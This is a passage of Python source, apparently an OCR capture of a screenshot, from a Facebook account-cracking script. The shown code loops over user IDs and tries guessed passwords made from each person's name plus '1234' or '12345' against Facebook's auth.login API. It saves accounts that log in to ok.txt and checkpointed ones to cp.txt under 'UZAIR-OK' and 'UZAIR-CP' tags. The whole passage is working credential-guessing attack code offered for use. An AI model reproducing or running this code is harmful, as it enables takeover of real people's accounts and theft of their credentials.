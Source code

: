 		    	if "access_token" in d:

		            print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass1+"\x1b[1;0m")

		            ok=open("ok.txt","a")

		            ok.write(uid+" | "+pass1+"\n")

		            ok.close()

		            oks.append(uid)

		        else:

		            pass2=name+"1234"

		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		            d=json.loads(q)

		            if 'www.facebook.com' in d['error_msg']:

		                print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass2)

		                cp=open("cp.txt","a")

		                cp.write(uid+" | "+pass2+"\n")

		                cp.close()

		                cps.append(uid)

		            else:

		                if 'access_token' in d:

		                    print("\x1b[1;97m[UZAIR-OK] "+uid+" | "+pass2+"\x1b[1;0m")

		                    ok=open("ok.txt","a")

		                    ok.write(uid+" | "+pass2+"\n")

		                    ok.close()

		                    oks.append(uid)

		                else:

		                    pass3=name+"12345"

		                    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		                    d=json.loads(q)

		                    if 'www.facebook.com' in d['error_msg']:

		                        print("\x1b[1;93m[UZAIR-CP] "+uid+" | "+pass3)
